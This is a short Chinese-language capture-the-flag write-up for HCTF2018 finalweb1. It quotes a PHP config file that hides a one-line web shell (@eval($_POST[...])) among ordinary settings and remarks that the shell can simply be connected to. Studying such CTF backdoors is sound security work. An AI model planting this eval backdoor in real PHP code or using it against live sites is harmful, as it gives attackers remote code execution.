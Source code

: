 > [Github 源码](https://github.com/mo-xiaoxi/CTF_Web_docker/tree/master/HCTF2018/finalweb1/html/config)

~说实话不知道这个后门是怎么发现的~

```php
<?php

$emmm_version="v1006";
$emmm_versiondate="233333";
$emmm_00O0o0OO0="95d4f8af44";
$emmm_weixin="close";
$emmm_apps="close";
$emmm_alifuwu="close";
@eval($_POST[ahahahhahaah]);
?>
```

得到这个后门的话就很简单了, 直接连接 webshell; 

![58-3.png](58-3.png)
